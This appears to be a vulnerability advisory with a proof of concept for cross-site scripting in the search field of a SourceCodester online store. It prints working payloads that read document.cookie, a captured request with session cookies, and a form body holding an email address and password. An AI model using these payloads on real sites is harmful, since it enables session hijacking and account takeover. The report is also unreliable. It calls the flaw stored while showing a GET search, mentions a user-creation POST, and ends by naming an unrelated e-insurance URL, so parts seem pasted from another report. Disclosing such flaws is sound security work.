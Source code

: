 Stored Cross-Site Scripting Vulnerability in SourceCodester Cosmetics and Beauty Product Online Store - 1.0
:

    Vendor: Sourcecodester
    Product: Cosmetics and Beauty Product Online Store - 1.0
    Product URL: Cosmetics and Beauty Product Online Store - 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Cosmetics and Beauty Product Online Store - 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Search parameter." input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Search parameter.
    Severity: High
    Affected URL: http://localhost/cbpos/?p=products&search=%3Ch1+onmouseover=confirm(document.cookie)%3Ehii%3C/h1%3E
    Affected Parameter: Search parameter.
    HTTP Method: GET

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Search parameter" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Search parameter" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/cbpos/?p=products&search=%3Ch1+onmouseover=confirm(document.cookie)%3Ehii%3C/h1%3E

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the Search parameter as shown below and send the request to the server.

search=%3Ch1+onmouseover=confirm(document.cookie)%3Ehii%3C/h1%3E


 navigate to homepage and enter the payload in search permater


firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40


Request:

GET /cbpos/?p=products&search=%3Ch1+onmouseover=confirm(document.cookie)%3Ehii%3C/h1%3E HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=p74o2f7lqfitvojtejdnshjrau; __insuarance__logged=1; __insuarance__key=7273YL1ZQOZ448QSLS6V
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the search parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.